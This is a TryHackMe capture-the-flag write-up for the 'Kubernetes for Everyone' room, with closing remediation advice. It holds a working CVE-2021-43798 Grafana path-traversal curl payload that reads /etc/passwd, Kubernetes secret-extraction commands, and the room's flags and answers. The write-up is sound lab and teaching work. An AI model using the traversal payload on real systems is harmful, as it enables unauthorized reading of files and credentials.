









# Kubernetes for Everyone - TryHackMe Writeup

## Overview
- **Room**: Kubernetes for Everyone
- **Difficulty**: Medium
- **Category**: Cloud / Kubernetes Security / Web Exploitation
- **Target OS / Software**: Ubuntu Linux, k0s (Lightweight Kubernetes), containerd (overlayfs), Grafana v8.3.0, Werkzeug (Flask)
- **Key Vulnerabilities & Techniques**:
  - Unauthenticated Arbitrary File Read / Directory Traversal (**CVE-2021-43798** in Grafana)
  - Information Disclosure via Web Assets & Base32 Decoding
  - Kubernetes Secret Extraction via `k0s kubectl`
  - Container Snapshot & Volume Forensic Analysis (`containerd` overlayfs layer analysis, Git history carving)
  - Kubernetes Job Enumeration & SHA-1 Hash Reversal
- **Tools Used**: Nmap, `curl`, OpenSSH, `k0s kubectl`, Git, `base32`, `base64`, `sha1sum`

---

## Challenge Summary & Answers

| Task # | Task Name | Question | Solution / Flag | Description / Method |
|---|---|---|---|---|
| **Task 1** | Access the Cluster | Find the username? | `vagrant` | Leaked Pastebin link in `/static/css/main.css` decoded from Base32 |
| **Task 1** | Access the Cluster | Find the password? | `hereiamatctf907` | Arbitrary file read via Grafana CVE-2021-43798 leaking `/etc/passwd` |
| **Task 2** | Your Secret Crush | What secret did you find? | `THM{yes_there_$s_no_$ecret}` | Extracted from `k8s.authentication` secret via `k0s kubectl` |
| **Task 3** | Powerhouse of Pod's Storage | What is the volume flag? | `THM{this_joke_is_cold_joke}` | Recovered from deleted commit diff in containerd overlayfs Git repository |
| **Task 4** | Hack a Job at FANG | What's the secret to the FANG interview? | `chidori` | SHA-1 hash `26c3d1c068e7e01599c3612447410b5e56c779f1` in `internship-job` |

---

## Phase 1: Access the Cluster (Task 1)

### 1. Port Scanning & Service Enumeration

We begin with an Nmap service scan to discover active ports on target IP `10.49.162.62`:

```bash
nmap -sC -sV -p 22,3000,5000 10.49.162.62
```

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
3000/tcp open  http    Grafana http
|_http-title: Did not follow redirect to /login
5000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.12)
|_http-title: Etch a Sketch
|_http-server-header: Werkzeug/2.0.2 Python/3.8.12
```



The scan highlights three entry points:
- **Port 22**: OpenSSH server.
- **Port 3000**: Grafana web interface.
- **Port 5000**: A Python Werkzeug web application titled "Etch a Sketch".

---

### 2. Finding the Username via CSS & Base32 Decoding

Examining the web application on port 5000, we inspect the stylesheet assets served at `/static/css/main.css`:

```bash
curl -s http://10.49.162.62:5000/static/css/main.css | head -n 5
```

The header reveals a commented-out external import pointing to a Pastebin paste:
```css
@import url("https://fonts.googleapis.com/css2?family=Bowlby+One+SC&display=swap");
/* @import url("https://pastebin.com/cPs69B0y"); */
@import url("https://fonts.googleapis.com/css2?family=Vollkorn:wght@500&display=swap");
```

Fetching the raw Pastebin document:
```bash
curl -s https://pastebin.com/raw/cPs69B0y
```
Output:
```text
OZQWO4TBNZ2A====
```

The string with trailing padding `=` indicates Base32 encoding. Decoding it yields the SSH username:
```bash
echo "OZQWO4TBNZ2A====" | base32 -d
```
Output:
```text
vagrant
```



---

### 3. Exploiting Grafana Directory Traversal (CVE-2021-43798)

Grafana version 8.3.0 is vulnerable to **CVE-2021-43798**, an unauthenticated path traversal vulnerability that allows reading arbitrary local files through plugin asset routes using `--path-as-is` with `curl`:

```bash
curl -s --path-as-is http://10.49.162.62:3000/public/plugins/alertlist/../../../../../../../../etc/passwd | tail -n 5
```

The output reveals:
```text
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
grafana:x:472:0:hereiamatctf907:/home/grafana:/sbin/nologin
```

The password is leaked directly in the GECOS comment field of the `grafana` user entry:
`hereiamatctf907`



---

## Phase 2: Your Secret Crush (Task 2)

### 1. SSH Access & Environment Reconnaissance

With credentials `vagrant:hereiamatctf907`, we authenticate to the machine via SSH:

```bash
ssh vagrant@10.49.162.62
```

Checking privileges:
```bash
vagrant@johnny:~$ sudo -l
Matching Defaults entries for vagrant on johnny:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vagrant may run the following commands on johnny:
    (ALL : ALL) NOPASSWD: ALL
```

The host runs **k0s**, a single-binary certified Kubernetes distribution. We can interact with the Kubernetes API using `sudo k0s kubectl`.

---

### 2. Extracting Kubernetes Secrets

Listing the secrets in the cluster:
```bash
sudo k0s kubectl get secrets
```

```text
NAME                  TYPE                                  DATA   AGE
default-token-nhwb5   kubernetes.io/service-account-token   3      4y278d
k8s.authentication    Opaque                                1      4y278d
```

We inspect the opaque secret `k8s.authentication` in YAML format:
```bash
sudo k0s kubectl get secret k8s.authentication -o yaml
```

Under `data.id`:
```yaml
data:
  id: VEhNe3llc190aGVyZV8kc19ub18kZWNyZXR9
```

Decoding the base64 value:
```bash
echo "VEhNe3llc190aGVyZV8kc19ub18kZWNyZXR9" | base64 -d
```
Output:
```text
THM{yes_there_$s_no_$ecret}
```



---

## Phase 3: Powerhouse of Pod's Storage (Task 3)

### 1. Locating Pod Storage & Containered OverlayFS

Task 3 requires hunting for a flag hidden in pod storage. Since `k0s` uses `containerd` with an overlayfs snapshotter, all persistent container filesystems and volume layers reside under `/var/lib/k0s/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/`.

Searching for Git repositories within the k0s container directory:
```bash
sudo find /var/lib/k0s/ -name ".git" 2>/dev/null
```
Output:
```text
/var/lib/k0s/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/38/fs/home/ubuntu/jokes/.git
```

Because snapshot directories have strict root-only permissions, we elevate to root shell via `sudo -i`:
```bash
sudo -i
cd /var/lib/k0s/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/38/fs/home/ubuntu/jokes
```



---

### 2. Git History Carving & Flag Recovery

Inside the `jokes` Git repository, inspecting the commit history with `git log -p`:
```bash
git log -p
```

Examining the diff history reveals commit `4b2c2d74b31d922252368c112a3907c5c1cf1ba3` where a file named `king.jokes` was deleted:

```diff
diff --git a/king.jokes b/king.jokes
deleted file mode 100644
index 1b7d703..0000000
--- a/king.jokes
+++ /dev/null
@@ -1 +0,0 @@
-THM{this_joke_is_cold_joke}
\ No newline at end of file
```

The volume flag is:
`THM{this_joke_is_cold_joke}`



---

## Phase 4: Hack a Job at FANG (Task 4)

### 1. Enumerating Kubernetes Jobs

To discover cluster jobs, we query Kubernetes across all namespaces:
```bash
sudo k0s kubectl get jobs -A
```

```text
NAMESPACE     NAME             COMPLETIONS   DURATION   AGE
internship    internship-job   1/1           3m10s      4y278d
```

A job named `internship-job` exists in the dedicated `internship` namespace.



---

### 2. Inspecting the Job Specification

Inspecting the full YAML manifest of `internship-job`:
```bash
sudo k0s kubectl get job -n internship internship-job -o yaml
```

In the container definition, we find:
```yaml
spec:
  containers:
  - command:
    - echo
    - 26c3d1c068e7e01599c3612447410b5e56c779f1
    image: busybox
    imagePullPolicy: Always
    name: internship-job
```



---

### 3. Decrypting the SHA-1 Secret

The container executed an `echo` with the SHA-1 hash:
`26c3d1c068e7e01599c3612447410b5e56c779f1`

Cracking the hash reveals the secret keyword:
**`chidori`**

We confirm the match locally:
```bash
echo -n "chidori" | sha1sum
```
Output:
```text
26c3d1c068e7e01599c3612447410b5e56c779f1  -
```



---

## Key Takeaways & Remediation

1. **Patch Public Web Applications**: The initial compromise stemmed from Grafana 8.3.0 (CVE-2021-43798), allowing unauthenticated arbitrary file traversal. Updating Grafana to version 8.3.1+ completely closes this vulnerability.
2. **Prevent Credential Storage in User Fields**: System accounts and `/etc/passwd` GECOS fields should never store plaintext credentials or passwords.
3. **Least Privilege & Role-Based Access Control (RBAC)**: Sudo privileges for the `vagrant` user allowed full access to `k0s kubectl`, enabling cluster secret inspection and host-level container layer access. Kubernetes cluster access should be restricted via dedicated RBAC roles and kubeconfig credentials.
4. **Sanitize Container Images & Layer History**: Deleting a file in a Git repository or container layer does not erase it from history. Always sanitize Git trees and use ephemeral volume mounts for sensitive runtime information.
